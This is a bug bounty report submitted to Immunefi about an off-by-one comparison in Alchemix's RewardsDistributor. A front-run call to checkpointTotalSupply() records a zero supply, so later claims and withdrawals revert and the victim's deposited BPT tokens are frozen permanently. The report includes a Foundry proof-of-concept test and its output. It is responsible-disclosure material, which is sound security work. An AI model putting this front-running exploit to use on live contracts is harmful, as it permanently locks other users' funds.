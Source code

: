 
# `checkpointTotalSupply()` can checkpoint before a timestamp is complete 

Submitted on May 12th 2024 at 10:57:42 UTC by @Holterhus for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31076

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RevenueHandler.sol

Impacts:
- Permanent freezing of funds

## Description
## Brief/Intro
The `checkpointTotalSupply()` function is in the `RewardsDistributor` and is callable by anyone. The function has an incorrect comparison of `>` instead of `>=`, and this can lead to a checkpoint being recorded when a timestamp is not yet complete. This leads to mistakes in the internal accounting. In the worst case, a user can never successfully `claim()` again, which permanently freezes their `BPT` tokens that have been deposited into `veALCX`. 

## Vulnerability Details
The implementation of `_checkpointTotalSupply()` is as follows:


```solidity
function _checkpointTotalSupply() internal {
    address ve = votingEscrow;
    uint256 t = timeCursor;
    uint256 roundedTimestamp = (block.timestamp / WEEK) * WEEK;
    IVotingEscrow(ve).checkpoint();

    for (uint256 i = 0; i < 20; i++) {
        if (t > roundedTimestamp) {
            break;
        } else {
            veSupply[t] = IVotingEscrow(ve).totalSupplyAtT(t);
        }
        t += WEEK;
    }
    timeCursor = t;
}
```

Notice that whenever `veSupply[t]` is assigned to a value, the `t += WEEK` increment happens immediately after, which permanently progresses the cursor so that `veSupply[t]` will never be assigned to again. Also, notice that the `veSupply[t]` assignment is only skipped if `t > roundedTimestamp`. This is incorrect. It should also be skipped if `t == roundedTimestamp`, otherwise this code can record the `totalSupplyAtT()` value before the timestamp itself is complete. This means the check should actually be: `if (t >= roundedTimestamp)`.

## Impact Details
In the scenario when `t == roundedTimestamp`, the code will incorrectly cache the `totalSupplyAtT()` of the current timestamp early. Any actions taken in `veALCX` after this (but on the same timestamp) will not be reflected in the `veSupply[]` value. On the other hand, the `_claimable()` function will correctly account for these last-second actions in each individual `tokenId`. As a result, it is possible for the `balanceOf` value below to contain deposits that did not contribute to the `veSupply[weekCursor]` value:

```solidity
if (balanceOf != 0) {
    toDistribute += (balanceOf * tokensPerWeek[weekCursor]) / veSupply[weekCursor]
}
```

In the worst-case scenario, the first user of `VotingEscrow` can end up in a situation where `veSupply[weekCursor] == 0` and `balanceOf > 0`. In this case, the `claim()` function will revert due to a division by zero, and it will permanently fail to progress past the broken week.

Since the `withdraw()` function in the `veALCX` contract has the following code:

```soldidity
IRewardsDistributor(distributor).claim(_tokenId, false);
```

it will always revert on this line, and users will be in a state where they are permanently unable to withdraw their `BPT` tokens. See the PoC for an example.

## References
See the PoC below.


## Proof of Concept

I have created the following test file and added it to the `tests/` directory:


```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract CheckpointBugTest is BaseTest {

    address victim = admin;

    constructor() {
        setupContracts(block.timestamp);
    }

    function testCheckpointTotalSupplyBugFreezing() public {

        uint256 ts = ((block.timestamp + 1 weeks) / 1 weeks) * 1 weeks;
        hevm.warp(ts);

        // If a victim is about to deposit, frontrunning and checkpointing them 
        // will store `veSupply[ts] == 0`. This is especially a risk if block builders
        // aren't currently accepting the victim tx's priority fee, so there's a large window
        // of time where the user's tx is in the mempool but not on-chain. This may also just
        // happen by accident.
        distributor.checkpointTotalSupply();
        uint256 tokenId = createVeAlcx(victim, TOKEN_100K, MAXTIME, false);

        console.log("The following state implies that `claim()` will permanently divide by 0:");
        console.log("ts", ts);
        console.log("distributor.timeCursor()", distributor.timeCursor());
        console.log("distributor.veSupply(ts)", distributor.veSupply(ts));
        console.log("veALCX.totalSupplyAtT(ts)", veALCX.totalSupplyAtT(ts));

        hevm.warp(newEpoch());
        voter.distribute();

        vm.expectRevert();
        distributor.claimable(tokenId);

        hevm.warp(veALCX.lockEnd(tokenId));

        vm.startPrank(victim);
        
        veALCX.startCooldown(tokenId);

        hevm.warp(block.timestamp + 1 weeks);

        // Now their BPT is permanently stuck since all calls to `claim()` will revert due to
        // a division by 0. It shouldn't have allowed `veSupply[ts] == 0` to be checkpointed
        // because the timestamp wasn't over yet.
        vm.expectRevert();
        veALCX.withdraw(tokenId);

        vm.stopPrank();
    }
}
```


Running the command `forge test -vvv --match-test testCheckpointTotalSupplyBugFreezing --rpc-url $ETH_RPC_URL` gives the following result:


```
[PASS] testCheckpointTotalSupplyBugFreezing() (gas: 25610541)
Logs:
  The following state implies that `claim()` will permanently divide by 0:
  ts 1715817600
  distributor.timeCursor() 1716422400
  distributor.veSupply(ts) 0
  veALCX.totalSupplyAtT(ts) 199452054794520538483200

```

which shows that the user's attempt to call `withdraw()` indeed reverts and their deposited `BPT` tokens are permanently frozen. 